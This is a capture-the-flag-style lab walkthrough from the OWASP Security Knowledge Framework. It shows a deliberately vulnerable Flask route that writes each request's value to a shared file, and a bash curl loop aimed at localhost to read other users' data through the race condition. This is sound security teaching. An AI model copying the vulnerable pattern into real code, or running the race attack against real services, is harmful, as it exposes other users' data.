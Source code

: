 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/1.png)

Let's try:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```python
@app.route("/<string:value>", methods=['GET'])
def home(value):
    # Create a Python file object using open() and the with statement
    with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
    file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```python
with open("shared-file.txt", 'w') as f:
        f.write(value)
        f.closed
        f.closed
```

and the response:

```python
 file = open("shared-file.txt", "r")
    response = make_response(send_file("shared-file.txt", attachment_filename="shared-file.txt"))
    response.headers.set("Content-Type", "text/html; charset=utf-8")
    response.headers.set("Content-Disposition", "attachment; filename=shared-file.txt")
    return response
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/4.png)

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/5.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/6.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)

